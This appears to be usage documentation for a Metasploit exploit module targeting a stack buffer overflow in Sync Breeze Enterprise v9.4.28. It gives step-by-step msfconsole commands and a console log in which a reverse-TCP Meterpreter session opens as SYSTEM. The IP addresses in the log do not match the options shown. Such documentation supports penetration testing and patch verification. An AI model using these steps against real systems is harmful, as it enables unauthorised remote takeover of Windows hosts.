 ## Vulnerable Application

[Sync Breeze Enterprise](http://www.syncbreeze.com) versions up to v9.4.28 are affected by a stack-based buffer overflow vulnerability which can be leveraged by an attacker to execute arbitrary code in the context of NT AUTHORITY\SYSTEM on the target. The vulnerability is caused by improper bounds checking of the request path in HTTP GET requests sent to the built-in web server. This module has been tested successfully on Windows 7 SP1. The vulnerable application is available for download at [Sync Breeze Enterprise](http://www.syncbreeze.com/setups/syncbreezeent_setup_v9.4.28.exe).

## Verification Steps
  1. Install a vulnerable Sync Breeze Enterprise
  2. Start `Sync Breeze Enterprise` service
  3. Start `Sync Breeze Enterprise` client application
  4. Navigate to `Tools` > `Sync Breeze Options` > `Server`
  5. Check `Enable Web Server On Port 80` to start the web interface
  6. Start `msfconsole`
  7. Do `use exploit/windows/http/syncbreeze_bof`
  8. Do `set RHOST ip`
  9. Do `check`
  10. Verify the target is vulnerable
  11. Do `set PAYLOAD windows/meterpreter/reverse_tcp`
  12. Do `set LHOST ip`
  13. Do `exploit`
  14. Verify the Meterpreter session is opened

## Scenarios

###Sync Breeze Enterprise v9.4.28 on Windows 7 SP1

```

msf exploit(syncbreeze_bof) > show options 

Module options (exploit/windows/http/syncbreeze_bof):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.2.10     yes       The target address
   RPORT    80               yes       The target port
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.2.187    yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Sync Breeze Enterprise v9.4.28


msf exploit(syncbreeze_bof) > exploit 

[*] Started reverse TCP handler on 192.168.2.187:4444 
[*] Sending request...
[*] Sending stage (957427 bytes) to 172.16.0.18
[*] Meterpreter session 1 opened (172.16.0.20:4444 -> 172.16.0.18:49162) at 2017-05-16 11:00:25 +0100

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : PC-01
OS              : Windows 7 (Build 7600).
Architecture    : x86
System Language : pt_PT
Domain          : LAB
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter >
```
